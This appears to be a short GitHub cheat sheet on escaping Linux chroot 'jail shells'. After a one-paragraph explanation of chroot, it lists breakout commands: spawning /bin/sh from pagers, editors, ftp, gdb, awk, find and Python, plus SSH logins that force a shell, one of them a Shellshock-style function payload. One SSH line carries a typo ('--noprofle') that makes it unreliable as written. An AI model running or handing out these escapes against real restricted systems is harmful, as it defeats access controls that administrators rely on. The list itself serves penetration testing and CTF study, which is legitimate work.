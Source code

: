 JAIL SHELL ESCAPE (LINUX)
=========================
<p>Jail-shell is a Linux security tool mainly using chroot limiting users to perform specific commands,and access specific directories. 
Chroot, short for "change root", is a Unix operation that changes the apparent root directory to the one specified by the user. 
Any process you run after a chroot operation only has access to the newly defined root directory and its subdirectories.</p>
<h1>Commands that let you execute shell commands</h1>
<ul>
<li>ftp &gt; /bin/sh</li>
<li>gdb &gt; /bin/sh</li>
<li>more &gt; !/bin/sh</li>
<li>less &gt; !/bin/sh</li>
<li>man &gt; !/bin/sh</li>
<li>vi &gt; :!/bin/sh</li>
<li>vim &gt; :!/bin/sh</li>
<li>scp -S /tmp/getMeOut.sh x y:</li>
<li>awk 'BEGIN {system("/bin/sh")}'</li>
<li>find / -name FileName -exec /bin/sh \;</li>
<li>echo os.system('/bin/sh')</li>
<li>echo <strong>import</strong>('os').system("/bin/sh")</li>
</ul>
<h1>Maybe SSH can help to escape</h1>
<p>SSH or Secure Shell is a network communication protocol that enables two computers to communicate and share data.</p>
<ul>
<li>ssh username@target -t "/bin/sh"</li>
<li>ssh username@target -t "bash --noprofle"</li>
<li>ssh username@target -t "() { :; }; /bin/sh"</li>
</ul>
        